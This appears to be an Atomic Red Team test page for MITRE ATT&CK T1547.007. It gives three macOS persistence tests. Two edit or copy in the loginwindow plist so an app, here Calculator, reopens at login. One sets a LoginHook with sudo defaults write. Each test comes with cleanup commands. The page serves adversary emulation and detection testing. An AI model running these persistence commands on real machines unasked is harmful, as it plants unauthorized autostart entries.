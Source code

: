 # T1547.007 - Boot or Logon Autostart Execution: Re-opened Applications
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/007)
<blockquote>Adversaries may modify plist files to automatically run an application when a user logs in. When a user logs out or restarts via the macOS Graphical User Interface (GUI), a prompt is provided to the user with a checkbox to "Reopen windows when logging back in".(Citation: Re-Open windows on Mac) When selected, all applications currently open are added to a property list file named <code>com.apple.loginwindow.[UUID].plist</code> within the <code>~/Library/Preferences/ByHost</code> directory.(Citation: Methods of Mac Malware Persistence)(Citation: Wardle Persistence Chapter) Applications listed in this file are automatically reopened upon the user’s next logon.

Adversaries can establish [Persistence](https://attack.mitre.org/tactics/TA0003) by adding a malicious application path to the <code>com.apple.loginwindow.[UUID].plist</code> file to execute payloads when a user logs in.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Copy in loginwindow.plist for Re-Opened Applications](#atomic-test-1---copy-in-loginwindowplist-for-re-opened-applications)

- [Atomic Test #2 - Re-Opened Applications using LoginHook](#atomic-test-2---re-opened-applications-using-loginhook)

- [Atomic Test #3 - Append to existing loginwindow for Re-Opened Applications](#atomic-test-3---append-to-existing-loginwindow-for-re-opened-applications)


<br/>

## Atomic Test #1 - Copy in loginwindow.plist for Re-Opened Applications
Copy in new loginwindow.plist to launch Calculator.

**Supported Platforms:** macOS


**auto_generated_guid:** 5fefd767-ef54-4ac6-84d3-751ab85e8aba





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| calc_plist_path | path to binary plist with entry to open calculator | path | PathToAtomicsFolder/T1547.007/src/reopen_loginwindow_calc.plist|


#### Attack Commands: Run with `sh`! 


```sh
cp #{calc_plist_path} ~/Library/Preferences/ByHost/com.apple.loginwindow.plist
```

#### Cleanup Commands:
```sh
rm -f ~/Library/Preferences/ByHost/com.apple.loginwindow.plist
```





<br/>
<br/>

## Atomic Test #2 - Re-Opened Applications using LoginHook
Mac Defaults

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/CustomLogin.html)

**Supported Platforms:** macOS


**auto_generated_guid:** 5f5b71da-e03f-42e7-ac98-d63f9e0465cb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script | path to script | path | /path/to/script|


#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sudo defaults write com.apple.loginwindow LoginHook #{script}
```

#### Cleanup Commands:
```sh
sudo defaults delete com.apple.loginwindow LoginHook
```





<br/>
<br/>

## Atomic Test #3 - Append to existing loginwindow for Re-Opened Applications
Appends an entry to launch Calculator hidden loginwindow.*.plist for next login.
Note that the change may not result in the added Calculator program launching on next user login.
It may depend on which version of macOS you are running on.

**Supported Platforms:** macOS


**auto_generated_guid:** 766b6c3c-9353-4033-8b7e-38b309fa3a93





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| objc_source_path | path to objective C program | path | PathToAtomicsFolder/T1547.007/src/append_reopen_loginwindow.m|
| exe_path | path to compiled program | path | /tmp/t1547007_append_exe|


#### Attack Commands: Run with `sh`! 


```sh
FILE=`find ~/Library/Preferences/ByHost/com.apple.loginwindow.*.plist -type f | head -1`
if [ -z "${FILE}" ] ; then echo "No loginwindow plist file found" && exit 1 ; fi
echo save backup copy to /tmp/
cp ${FILE} /tmp/t1547007_loginwindow-backup.plist
echo before
plutil -p ${FILE}
echo overwriting...
#{exe_path} ${FILE} && echo after && plutil -p ${FILE}
```

#### Cleanup Commands:
```sh
rm -f #{exe_path}
# revert to backup copy
FILE=`find ~/Library/Preferences/ByHost/com.apple.loginwindow.*.plist -type f | head -1`
if [ -z "${FILE}" ] ; then
   exit 0
fi
mv /tmp/t1547007_loginwindow-backup.plist ${FILE}
```



#### Dependencies:  Run with `bash`!
##### Description: compile C program
##### Check Prereq Commands:
```bash
if [ -f "#{exe_path}" ]; then exit 0 ; else exit 1; fi
```
##### Get Prereq Commands:
```bash
cc #{objc_source_path} -o #{exe_path} -framework Cocoa
```




<br/>
